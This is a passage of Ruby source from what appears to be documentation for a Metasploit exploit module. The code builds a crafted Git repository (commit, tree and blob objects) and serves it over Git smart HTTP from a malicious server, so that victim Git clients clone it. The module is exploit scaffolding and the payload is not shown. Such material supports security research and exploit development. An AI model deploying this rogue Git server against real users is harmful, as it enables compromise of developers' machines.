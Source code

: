 ```ruby
        sha1: tree_object.sha1
      }
    ]
    top_level_obj = Msf::Exploit::Git::GitObject.build_tree_object(entries)

    # create commit
    commit_object = Msf::Exploit::Git::GitObject.build_commit_object(tree_sha1: top_level_obj.sha1)

    # create list of objects in repository, as the
    # client will request them to build the repository
    @git_objs =
      [
        commit_object, top_level_obj, tree_object,
        file_blob, tree_object, blob
      ]

    @refs =
      {
        'HEAD' => 'refs/heads/master',
        'refs/heads/master' => commit_object.sha1
      }
  end

  def create_git_uri
    "/#{Faker::App.name.downcase}.git".gsub(' ', '-')
  end

  def primer
    @git_repo_uri = datastore['GIT_URI'].empty? ? create_git_uri : datastore['GIT_URI']
    @git_addr = URI.parse(get_uri).merge(@git_repo_uri)
    print_status("Git repository to clone: #{@git_addr}")
    hardcoded_uripath(@git_repo_uri)
  end

  def on_request_uri(cli, req)
    request = Msf::Exploit::Git::SmartHttp::Request.parse_raw_request(req)
    case request.type
    when 'ref-discovery'
      response = get_ref_discovery_response(request, @refs)
      fail_with(Failure::UnexpectedReply, 'Git client did not send a valid ref-discovery request') unless response
    when 'upload-pack'
      response = get_upload_pack_response(request, @git_objs)
      fail_with(Failure::UnexpectedReply, 'Git client did not send a valid upload-pack request') unless response
    else
      fail_with(Failure::UnexpectedReply, 'Git client did not send a valid request')
    end

    cli.send_response(response)
  end
end
```


[1]: https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/git.rb
[2]: https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/git/smart_http.rb
[3]: https://git-scm.com/docs/http-protocol